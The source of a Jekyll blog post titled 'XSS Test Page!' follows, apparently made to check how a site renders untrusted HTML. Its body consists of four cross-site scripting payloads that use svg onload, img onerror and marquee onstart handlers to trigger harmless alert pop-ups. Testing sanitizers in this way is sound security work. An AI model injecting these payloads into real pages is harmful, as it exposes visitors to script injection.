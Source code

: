 ```yaml
---
layout: post
title:  "XSS Test Page!"
date:   2019-12-01 09:19:24 +0530
categories: jekyll update
---
```



<xml:namespace prefix="t"><svg><style>&lt;img/src=x onerror=alert(1)// </b> 
“><svg/onload=alert(2)>”@x.y
<marquee onstart=alert(3)>
'>"><svg/onload=alert(4)>
